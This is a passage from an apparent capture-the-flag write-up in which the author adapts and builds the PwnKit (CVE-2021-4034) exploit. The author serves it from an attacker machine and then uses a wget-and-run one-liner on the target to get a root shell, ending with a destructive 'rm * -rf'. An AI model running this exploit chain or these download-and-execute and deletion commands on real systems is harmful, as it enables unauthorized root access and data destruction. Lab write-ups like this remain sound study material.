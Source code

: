 Had to change the exploit code since `pkexec` is not at `/usr/bin/`

`#define BIN "/usr/bin/pkexec"` -> `#define BIN "/home/red/.git/pkexec"`  

```bash
vi exploit.c
```

Then build it

```bash
root@97986b28b0c7:/mnt/share/CVE-2021-4034# make
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function 'gconv_init':
evil-so.c:10:5: warning: implicit declaration of function 'setgroups'; did you mean 'getgroups'? [-Wimplicit-function-declaration]
   10 |     setgroups(0);
      |     ^~~~~~~~~
      |     getgroups
evil-so.c:12:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
   12 |     execve("/bin/sh", NULL, NULL);
      |     ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function 'main':
exploit.c:25:5: warning: implicit declaration of function 'execve' [-Wimplicit-function-declaration]
   25 |     execve(BIN, argv, envp);
      |     ^~~~~~
```


### Use policykit exploit

```bash
┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ mkdir www && cd www

┌──(bravosec㉿fsociety)-[~/thm/Red/www]
└─$ cp /media/sf_Public/CVE-2021-4034/evil.so .

┌──(bravosec㉿fsociety)-[~/thm/Red/www]
└─$ cp /media/sf_Public/CVE-2021-4034/exploit .

┌──(bravosec㉿fsociety)-[~/thm/Red/www]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
red@red:~$ cd /tmp
cd /tmp
red@red:/tmp$ wget 10.11.19.145:8000/exploit 10.11.19.145:8000/evil.so && chmod +x exploit && ./exploit
...
id
uid=0(root) gid=0(root) groups=0(root)
rm * -rf
```

